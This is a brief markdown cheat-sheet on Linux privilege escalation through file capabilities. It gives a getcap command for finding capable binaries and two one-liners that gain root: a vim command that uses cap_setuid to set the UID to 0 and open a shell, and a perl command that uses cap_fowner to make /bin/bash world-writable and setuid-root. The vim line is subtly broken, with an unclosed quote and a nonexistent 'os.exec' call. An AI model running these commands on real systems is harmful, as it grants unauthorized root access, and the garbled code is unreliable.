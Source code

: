 # Example

### getcap -r / 2>/dev/null

## True Positive: cap_setuid+ep, cap_fowner+ep (This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file)

## Example:

### ./vim -c ':py3 import os; os.setuid(0); os.exec("/bin/sh, "sh", "-c", "reset; exec sh")' (cap_setuid+ep)

### ./perl -e 'chmod 04777, "/bin/bash";' (cap_fowner+ep)


